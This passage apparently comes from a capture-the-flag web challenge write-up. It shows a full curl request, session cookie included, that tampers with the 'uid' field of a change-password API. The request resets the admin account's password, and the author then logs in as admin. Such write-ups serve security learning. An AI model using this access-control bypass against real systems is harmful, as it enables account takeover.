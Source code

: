 Let's copy the change password payload using "Copy as cURL (bash)" and modify the `uid` field. Let's try with `uid = 1`:

```bash
$ curl 'http://134.209.22.191:31923/api/users/update' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9,nb-NO;q=0.8,nb;q=0.7' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4MTE0MTN9.iZNaLapFiFRpAlSMx-rq1Yt7-y1G9yAXOC4fS1fgVT0' \
  -H 'Origin: http://134.209.22.191:31923' \
  -H 'Pragma: no-cache' \
  -H 'Referer: http://134.209.22.191:31923/settings' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36' \
  --data-raw '{"password":"test","uid":"1"}' \
  --compressed \
  --insecure
{"message":"Password for admin changed successfully!"}
```

Success! The server tells us that we successfully changed the password for the `admin` user. Now we can log in using `admin` and `test`:

![](./11.png)
